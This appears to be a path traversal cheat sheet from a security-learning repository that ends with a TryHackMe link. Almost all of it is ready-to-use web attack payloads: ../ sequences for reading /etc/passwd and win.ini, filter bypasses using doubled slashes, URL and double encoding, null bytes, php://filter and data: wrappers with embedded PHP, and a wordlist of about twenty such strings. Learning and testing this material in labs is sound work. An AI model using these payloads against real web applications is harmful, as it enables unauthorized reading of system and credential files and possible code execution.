 # Path Traversal Cheat Sheet

#### Common Paths to read
```txt
/etc/passwd
/var/log/apache2/access.log
```
___
#### Common Method
```txt
../../../etc/passwd >> For linux

..\..\..\windows\win.ini >> For windows
```
#### Bypassing Defence Mechanism
1. Sequence block bypass >> ....//....//....//....//etc/passwd
2. Sequence block bypass2 >> ..//..//..//..//etc/passwd
3. Encoding ../ >> %2e%2e%2f
4. Absolute path >> /var/www/images/../../../etc/passwd
5. Absolute path2 >> /var/www/html/..//..//..//etc/passwd
6. Using null byte >> ../../../etc/passwd%00.png
7. Using PHP wrappers >> php://filter/convert.base64-encode/resource=/etc/passwd
8. Using Data wrappers >> data:text/plain,<?php%20phpinfo();%20?>
#### Wordlist
```txt
/etc/passwd
../../../../../../../etc/passwd
..//..//..//..//etc/passwd
....//....//....//....//etc/passwd
/var/www/images/../../../etc/passwd
/var/www/images/..//..//..//..//etc/passwd
/var/www/images/....//....//....//....//etc/passwd
..%252f..%252f..%252fetc/passwd
%2Fetc%2Fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
%2e%2e%2f%2f%2e%2e%2f%2f%2e%2e%2f%2fetc%2e%2e%2fpasswd
/etc/passwd%00.php
../../../etc/passwd%00.php
..//..//..//..//etc/passwd%00.php
....//....//....//....//etc/passwd%00.php
/var/www/images/../../../etc/passwd%00.php
/var/www/images/..//..//..//..//etc/passwd%00.php
/var/www/images/....//....//....//....//etc/passwd%00.php
..%252f..%252f..%252fetc/passwd%00.php
%2Fetc%2Fpasswd%00.php
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd%00.php
%2e%2e%2f%2f%2e%2e%2f%2f%2e%2e%2f%2fetc%2e%2e%2fpasswd%00.php
```
## To learn
https://tryhackme.com/r/room/filepathtraversal
